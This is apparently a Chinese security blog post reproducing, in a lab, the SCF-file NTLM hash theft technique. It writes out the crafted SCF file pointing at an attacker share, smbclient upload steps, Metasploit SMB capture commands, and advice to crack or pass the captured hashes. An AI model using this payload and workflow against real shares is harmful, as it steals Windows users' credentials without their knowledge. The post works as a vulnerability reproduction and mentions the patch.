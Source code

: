  

## 0x00前言

今天国外安全研究人员公布了一个通过SCF文件使用NTLM身份验证中的错误来偷取远程服务器的Window NTLM，该漏洞现在已被公开，通过下载微软的补丁可以解决，其补丁下载地址：https://portal.msrc.microsoft.com/en-us/security-guidance/releasenotedetail/313ae481-3088-e711-80e2-000d3a32fc99，这里我简单的复现了该漏洞利用情况！

## 0x01漏洞复现

**漏洞原理**

该漏洞通过向网络中的共享目录中上传特殊构造的SCF文件(即在SCF文件中将图标文件指定到我们攻击机伪造的共享目录里)，故当任何用户访问该共享目录时便可获取它的Windows NTLM Hash，从而可以进一步破解Hash获得明文密码或者利用Pass The Hash攻击目标服务器，这是一个非常简单且实用的内网渗透技巧。

**实验环境**

**攻击机：10.0.0.86(Kali)**

**目标机/局域网主机B (文件共享主机)：10.0.0.21 (Windows 7 64 bits)**

**局域网主机A(受害主机）：10.0.0.201 (Windows 7 32 bits)**

**具体步骤：**

1、首先在目标机上创建一个共享文件夹,并赋予everyone为可读可写权限（例如：share）

![](http://upload-images.jianshu.io/upload_images/8689220-f514b7e968fcfd93.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![](http://upload-images.jianshu.io/upload_images/8689220-a34d7f0f42a411b1.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![](http://upload-images.jianshu.io/upload_images/8689220-85b4e150cbdde93e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

2.然后关闭共享的密码保护如下：
![](http://upload-images.jianshu.io/upload_images/8689220-c2affa8032abf307.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

3、接下来在攻击机kali上创建一个SCF文件，命令如下：

vimtest.scf

[Shell]

Command=2

IconFile=\\10.0.0.86\share\test.ico

[Taskbar]

Command=ToggleDeskto
![](http://upload-images.jianshu.io/upload_images/8689220-44df702280779cc7.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

注意：其中的10.0.0.86是指向我们的攻击机。

4、上传上面构造的SCF文件至目标服务器的共享目录里：

root@backlion:/tmp# smbclient//10.0.0.21/share

Enter root's password:

smb: \> puttest.scf

putting file test.scf as \test.scf (2.7 kb/s) (average2.7 kb/s)

smb: \>

![](http://upload-images.jianshu.io/upload_images/8689220-4a9dc1a4d81c0385.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


5、在攻击机上开启MSF的auxiliary/server/capture/smb模块来伪造共享目录并抓取用户的Windows密码Hash：

msf > use auxiliary/server/capture/smb

msf auxiliary(smb) > show options

msf auxiliary(smb) > set JoHNPWFILE /tmp/smbhash.txt

msf auxiliary(smb) > exploit-j

![](http://upload-images.jianshu.io/upload_images/8689220-c5bd541b26590b32.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


6、此时任何访问下面目标机上的共享目录的Windows用户的密码Hash都将可能被我们的攻击机获取到。

\\10.0.0.21\share

![](http://upload-images.jianshu.io/upload_images/8689220-45cfb3440f23268a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


局域网主机A：(10.0.0.201/win7_32)



7、在攻击机上我们也“如愿地”偷取到了这三个来自不同windows主机的用户的Windows密码Hash：

![](http://upload-images.jianshu.io/upload_images/8689220-2e648b3ef45d504b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


8、所有获取到的NTLM Hash保存在/tmp/smbhashes.txt_netntlmv2，如下：

![](http://upload-images.jianshu.io/upload_images/8689220-b2a5e3cc998b4e64.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


9、最后，我们可以通过John the Ripper或者其他在线Windows

Hash破解网站，来破解明文密码或者利用NTLM Hash来Pass

The Hash攻击
![](http://upload-images.jianshu.io/upload_images/8689220-b14bf9664c8b3357.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


## 0x02参考

http://www.sysadminjd.com/adv170014-ntlm-sso-exploitation-guide/

https://room362.com/post/2016/smb-http-auth-capture-via-scf/
